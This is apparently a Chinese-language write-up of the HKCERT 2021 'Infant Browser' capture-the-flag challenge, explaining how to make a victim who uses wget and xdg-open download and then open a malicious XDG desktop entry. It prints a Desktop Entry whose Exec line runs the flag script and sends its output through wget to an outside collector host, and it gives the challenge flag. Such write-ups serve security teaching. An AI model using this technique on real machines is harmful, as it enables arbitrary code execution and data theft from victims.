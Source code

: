 網絡安全隱患
===

## Summary

* **Author:** Ozetta
* **Category:** Web, Pwn, ★☆☆☆☆

## Description

Web: {CHAL_URL_LINK}

Attachment: {ATTACHMENT_LINK}


（以下爲 DeepL 翻譯）
如果有人用 wget 作為瀏覽器怎麼辦？
旗幟：在根目錄中找到名稱為 `/proof*.sh` 的旗幟

---

* 這個挑戰的目的是發送一個惡意的網頁/URI來竊取敏感信息，甚至在受害者的機器上執行任意代碼。與XSS不同的是，XSS的影響僅限於受害者在特定網站上的賬戶，而瀏覽器/桌面應用程序的利用，或一般的客戶端攻擊，可能會損害整個受害者的機器。

* 在這個挑戰中，我們可以向受害者發送一個任意的URI，他們將用 `xdg-open` 打開它（就像在瀏覽器中點擊超連結一樣）。為了欺騙受害者執行任意代碼，我們可以製作一個XDG Desktop Entry，它可以指定要執行的命令。

* 但在我們欺騙受害者打開 Desktop Entry 之前，我們需要將桌面條目寫入本地文件系統的某個地方。正因受害者使用 `wget` 作為瀏覽器，而當前工作目錄是可寫的。

* 例如，你可以上傳一個名為`example.desktop`的 Desktop Entry 文件到你的網站（例如Github頁面），然後要求受害者機器人下載它
```
[Desktop Entry]
Exec=sh -c "wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?`/proof*.sh`"
Type=Application
```
 * 如果這個 Desktop Entry 被打開，那麼它將執行 `Exec=` 之後的命令，亦即首先執行 `/proof*.sh` 獲得輸出，並執行 `wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?(執行 /proof*.sh 獲得的輸出)`，從而捕獲旗幟

* 一旦寫好了 `example.desktop` 文件，你可以要求受害者機器人打開 `file:///tmp/example.desktop` ，這樣他們就會執行你之前植入的代碼
  * 但要確保你為不同 Desktop Entry 文件使用不同的文件名，因為挑戰平台對每個參與者都是通用的

* 對你來說太容易了？現在你可以試試 babyURIi...

## Flag

`hkcert21{Infant_Browser_flag_153283eeddd3002f}`